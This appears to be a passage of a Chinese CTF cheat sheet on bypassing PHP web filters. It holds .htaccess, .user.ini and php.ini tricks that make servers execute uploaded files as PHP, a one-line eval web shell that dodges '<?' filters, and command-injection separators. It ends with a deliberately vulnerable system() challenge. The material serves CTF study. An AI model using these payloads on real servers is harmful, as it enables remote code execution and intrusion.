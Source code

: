 #### 五、绕过类

1.  使用`http://xxxxxx:8888///xxxx/xxx/xxx`绕过`parse_url()`、`parse_str()`
2.  apache服务器下可以利用`.htaccess`，[详情请点击](http://cn-sec.com/archives/504746.html)

```
// 利用php去识别xxx文件
<FilesMatch "xxx">
SetHandler application/x-httpd-php
</FilesMatch>
---
// 识别.txt为php5执行文件
AddHandler php5-script .txt
// 识别.txt为php7执行文件
AddHandler php7-script .txt
// 包含文件
to_append_file /flag 
```

3.  nginx下利用.user.ini

```
auto_prepend_file=a.jpg //指定在主文件之前自动解析的文件的名称，并包含该文件，就像使用require函数调用它一样。它包含在所有php文件前先执行
auto_append_file=a.jpg  //解析后进行包含，它包含在所有php文件执行后执行 
```

4.  修改php.ini

```
auto_prepend_file = "/home/fdipzone/header.php"
auto_append_file = "/home/fdipzone/header.php" 
```

6.  使用`<script language="php">eval($_POST[1])</script>`来绕过`<?`限制
7.  各种查看文件的命令

```
cat 
more 
less
tac
nl
grep 
```

8.  命令拼接绕过

```
;
%0a 
| 
|| 
%26 
```

9.  过滤字符串，如题

```
<?php

highlight_file(__FILE__);
error_reporting(E_ALL);
if(isset($_GET['cmd'])){
    $cmd=$_GET['cmd'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\%|\x09|\x26|\>|\</i", $cmd)){
        system($cmd);
    }
    else{
        die("hacker");
    }
} 
```